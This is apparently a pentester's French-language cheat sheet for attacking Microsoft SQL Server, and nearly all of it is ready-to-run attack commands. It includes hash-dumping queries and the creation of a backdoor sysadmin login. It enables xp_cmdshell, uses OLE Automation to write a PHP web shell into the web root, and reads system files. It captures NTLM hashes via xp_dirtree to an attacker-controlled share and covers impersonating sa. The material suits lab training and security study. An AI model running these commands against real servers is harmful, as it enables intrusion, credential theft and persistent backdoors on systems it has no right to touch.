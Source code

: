 ```yaml
---
public: true 
#Tags: vhost, hashes, lfi, password-spraying, potato
---
```


Port : 1433

## Enumeration

### nmap
```shell-session
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $TARGET_IP
```

### metasploit
```shell-session
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 10.129.201.248

rhosts => 10.129.201.248


msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 10.129.201.248:       - SQL Server information for 10.129.201.248:
[+] 10.129.201.248:       -    ServerName      = SQL-01
[+] 10.129.201.248:       -    InstanceName    = MSSQLSERVER
[+] 10.129.201.248:       -    IsClustered     = No
[+] 10.129.201.248:       -    Version         = 15.0.2000.5
[+] 10.129.201.248:       -    tcp             = 1433
[+] 10.129.201.248:       -    np              = \\SQL-01\pipe\sql\query
[*] 10.129.201.248:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Mssqlclient.py (impacket)
```sql
-- Internal Authentication (no fomzin prefix)
mssqlclient.py -p 1433  $USER:$PASS@$TARGET_IP 

--
mssqlclient.py Administrator@10.129.201.248 -windows-auth

-- Local workstation account authentication (no need to add WIN-02 to hosts)
mssqlclient.py -p 1433 -windows-auth WIN-02/mssqlsvc:princess1@$TARGET_IP      
```

## Commandes utiles
### Enumeration / Exploration
```sql
-- Get version
select @@version;
-- Get user
select user_name();
-- List admin users
SELECT   name,type_desc,is_disabled FROM     master.sys.server_principals WHERE    IS_SRVROLEMEMBER ('sysadmin',name) = 1 ORDER BY name

-- Check if we are sysadmin
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin'); -- retourne 0 si nous ne sommes pas membre
-- Get databases
SELECT name FROM master.dbo.sysdatabases;
select name from sys.databases
-- Use database
USE master

-- Get table names
SELECT table_name FROM <databaseName>.INFORMATION_SCHEMA.TABLES;



-- List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

-- Identify Linked Servers
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0        <== isremote = 0 ===> LINKED SERVER

-- List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;

```

### Exploitation
#### Création de compte
```sql
------------------------------------------------------------------------
-- Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!';
EXEC sp_addsrvrolemember 'hacker', 'sysadmin';
```

#### Exécution de commandes

```
------------------------------------------------------------------------
-- Tentative d activation de xp_cmdshell  (si droits suffisants)
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1;
-- To update the currently configured value for advanced options.  
RECONFIGURE;
-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;
-- To update the currently configured value for this feature.  
RECONFIGURE
--  Execution de commande (si xp_cmdshell est activé)
xp_cmdshell 'whoami';

```

#### Ecriture dans un fichier
```
------------------------------------------------------------------------
-- Creation de fichier fia OLE Automation Procedures
-- Activation
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
-- Création de fichier
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

#### Lecture d'un fichier
```
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

#### Capture de Hash

```
-- XP_DIRTREE
EXEC master..xp_dirtree '\\10.10.110.17\share\'

-- XP_SUBDIRS
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```

#### User Impersonate

```
-- Liste des users que l'on peut "impersonate"
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
GO

-- Exploitation
user master; -- db sur laquelle on est sur d'avoir les droits
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
REVERT; -- retourne aux droits précédents
```

### Linked Server
Si on a un serveur lié (voir énumération sur cette page), on peut exécuter des requêtes à distance sur cette machine :

```
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```

## Outils utiles

#### sqlcmd (Windows)
```
# -y 30 -Y 30 augmentent la visibilité des résultat (attention aux performances)
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30

# ATTENTION : cet utilitaire nécessite la saisie du mot GO à la ligne terminant chaque requête ! (pas besoin de ';' dans cet outil)
```

#### sqsh (Linux)
```
# Authentificatino Interne (SQL Server)
sqsh -S $TARGET_IP -U $AD_USER -P $AD_PASSWORD

# Authentification locale ou domaine
sqsh -S $TARGET_IP -U .\\$AD_USER -P $AD_PASSWORD 
```

#### mssqlclient.py (Impacket)

```
 mssqlclient.py -p 1433 julio@10.129.203.7 
```



There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). However, besides those methods there are also additional functionalities that can be used like the `xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry. Nevertheless, those methods are outside the scope of this module.